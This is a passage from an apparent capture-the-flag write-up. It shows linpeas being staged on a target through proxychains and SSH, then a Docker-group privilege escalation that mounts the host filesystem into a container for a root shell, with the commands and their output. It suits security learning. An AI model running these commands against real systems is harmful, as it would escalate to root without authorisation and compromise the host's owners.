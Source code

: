 ```
$ proxychains scp linpeas.sh sysadmin@172.18.0.1:/tmp                       
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.18.0.1:22  ...  OK
sysadmin@172.18.0.1's password: 
linpeas.sh    
```
<div><p align="center"><img src="img/linpeas.png"></div>


By default, Docker requires superuser privileges (root) to interact with the Docker daemon. However, when you install Docker, it often creates a group called "docker," and if a user is added to this group, they can execute Docker commands without needing to be a superuser.
When an attacker gains access to a user account that is a member of the Docker group. While this user might not have full root access, they can use Docker to run containers with various options that can potentially lead to privilege escalation. Some of the common ways an attacker could leverage Docker for privilege escalation include:

* Running a container with the --privileged flag, which provides almost full access to the host system, effectively bypassing most security mechanisms.
* Mounting the host's root filesystem into a container and making changes to system files.
* Running containers with host-level network access, potentially allowing them to interact with other containers or services on the host

In this case I created a new container by mounting the entire file system and I was able to access the root folder and read the last flag.
```
sysadmin@ubuntu:~$ docker run -v /:/mnt --rm -it wordpress chroot /mnt sh
# whoami
root
```

* :warning: I forgot to save the output from when I read the flags, anyway:
    * flag0 is on the container `/var/www/html` directory.
    * flag1 is on host machine readble by sysadmin in `/home/sysadmin` directory.
    * flag2 is on host machine readble by root in `/root` directory.